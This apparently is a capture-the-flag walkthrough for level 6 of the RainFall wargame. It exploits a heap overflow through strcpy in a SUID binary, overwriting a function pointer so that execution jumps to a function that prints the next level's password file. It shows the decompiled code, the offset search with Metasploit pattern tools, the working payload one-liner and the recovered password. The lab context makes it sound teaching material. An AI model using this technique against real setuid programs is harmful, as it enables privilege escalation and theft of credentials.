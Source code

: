 # Level 6 Walkthrough

In this level, we exploit a heap-based buffer overflow to hijack a function pointer and gain access to the next level’s password.

## Who am I?

```bash
level6@RainFall:~$ id
uid=2064(level6) gid=2064(level6) groups=2064(level6),100(users)
```

## Where am I?

```bash
level6@RainFall:~$ ll
-rwsr-s---+ 1 level7 users  5274 Mar  6  2016 level6*
```

We are in possession of a SUID binary owned by level7. Our goal is to exploit this binary to read the `.pass` file from level7.

---

## Program Behavior

Let’s first understand how the binary behaves when run under different conditions.

```bash
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 hello
Nope
```

A segmentation fault occurs when no argument is provided. With one argument, the program prints `Nope` and exits.

---

## Analysis

We now analyze the binary structure and control flow to find an entry point for exploitation.

We start by listing the functions:

```gdb
(gdb) info functions
...
0x08048454  n
0x08048468  m
0x0804847c  main
```

Decompiled logic:

* `main()` allocates two buffers with `malloc()`
* One buffer receives user input via `strcpy()`
* The other buffer holds a function pointer initially set to `m()`
* Finally, the function pointer is called

From the decompiled code:

```c
void main(...) {
  char *dest = malloc(0x40);
  void (**fn)() = malloc(4);
  *fn = m;
  strcpy(dest, argv[1]);
  (*fn)();
}
```

So we control the `strcpy()` destination, and can overflow to overwrite the function pointer `*fn`, which is called afterward.

We also know that the alternate function `n()` executes `system("/bin/cat /home/user/level7/.pass")`, which means it will directly print the password to stdout if we can redirect execution there.

---

## Finding the Overflow Offset

Our next goal is to determine the precise offset needed to overwrite the function pointer.

We use Metasploit’s pattern generator:

```bash
$ msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5...
```

Run the binary with the pattern:

```gdb
(gdb) run Aa0Aa1Aa2...
...
Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
```

Check the EIP value:

```gdb
(gdb) info registers eip
EIP: 0x41346341
```

Find the exact offset:

```bash
$ msf-pattern_offset -q 0x41346341
[*] Exact match at offset 72
```

---

## Redirecting Execution to `n()`

We know that the `n()` function reveals the password. Let’s redirect execution to it.

Function `n()` prints the password using:

```c
system("/bin/cat /home/user/level7/.pass");
```

So we want to overwrite the function pointer at `malloc(4)` with the address of `n()`.
We locate it in GDB:

```gdb
(gdb) p n
$1 = {<text variable, no debug info>} 0x8048454 <n>
```

We build the payload:

```bash
$ python -c "print 'A' * 72 + '\x54\x84\x04\x08'" > /tmp/exploit
```

---

## Triggering the Exploit

Now that we have the payload, let’s test it and gain access to the password.

We first try to run the exploit using redirected input:

```bash
level6@RainFall:~$ python -c 'print "A" * 72 + "\x54\x84\x04\x08"' > /tmp/exploit
level6@RainFall:~$ cat /tmp/exploit | ./level6
Segmentation fault (core dumped)
```

As expected, this fails because the binary crashes if no argument is provided.

**Correct usage:** We must pass the payload as a command-line argument:

```bash
level6@RainFall:~$ ./level6 $(python -c "print 'A' * 72 + '\x54\x84\x04\x08'")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

We successfully redirected execution to the function `n()` and obtained the password.

---

## Files in this repository

* `flag.txt`: file containing the retrieved flag
* `asm_analysis.md`: GDB analysis of the binary
* `source/`: contains `ghidra/` (raw Ghidra decompilation) and `clean/` (cleaned C, faithful to binary)
---

## Conclusion

This final recap explains what vulnerability was exploited and how it led us to success.

This level showcases a classic heap-based overflow where we overwrite a function pointer located in a heap allocation. The use of `strcpy()` without bounds checking lets us go beyond the intended buffer and control execution flow. By carefully analyzing memory layout and offsets, we redirected execution to a desired internal function that gave us access to the next level.

